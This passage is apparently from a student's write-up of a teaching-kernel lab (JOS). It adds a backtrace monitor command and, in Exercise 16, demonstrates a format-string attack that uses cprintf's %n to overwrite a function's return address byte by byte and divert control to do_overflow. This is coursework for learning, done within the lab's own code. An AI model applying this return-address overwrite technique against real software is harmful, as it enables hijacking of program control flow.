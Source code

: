 ```c
	return 0;
}
```

In order to make `backtrace` a command that can be executed in the terminal window, we must add this command into `commands[]` in `kern/monitor.c`.

```c
static struct Command commands[] = {
	{ "help", "Display this list of commands", mon_help },
	{ "kerninfo", "Display information about the kernel", mon_kerninfo },
	{ "backtrace", "Introduction of backtrace command", mon_backtrace},
};
```



### Exercise 16

Examine `obj/kern/kenel.asm`, we can find the address of `do_overflow`. 

```asm
f0100827 <do_overflow>:
    return pretaddr;
}
```

But as we are "attacking" from the source file itself, so we can just perform a coercion type conversion to get the address of the target function.

Then we simply do a "format-string attack" in the function `start_overflow`. 

```c
void start_overflow(void)
{
    char str[256] = {};
    int nstr = 0;

    char * pret_addr = (char *) read_pretaddr();
    uint32_t overflow_addr = (uint32_t) do_overflow;
    for (int i = 0; i < 4; ++i){
        cprintf("%*s%n\n", pret_addr[i] & 0xFF, "", pret_addr + 4 + i);
        cprintf("%*s%n\n", (overflow_addr >> (8*i)) & 0xFF, "", pret_addr + i);
    }
}
```

We should first move the return address for `start_overflow` to the return address of our to-be-executed `do_overflow`, otherwise the `%eip` will go to some random memory address. Then we modify the return address of `start_overflow` to lead our control flow go to `do_overflow`. These two steps are done byte by byte in my code. The two steps cannot be done in reversed order because once we cover the return address of `start_overflow`, we cannot find the value that we want to write into `do_overflow`'s return address.



### Exercise 17
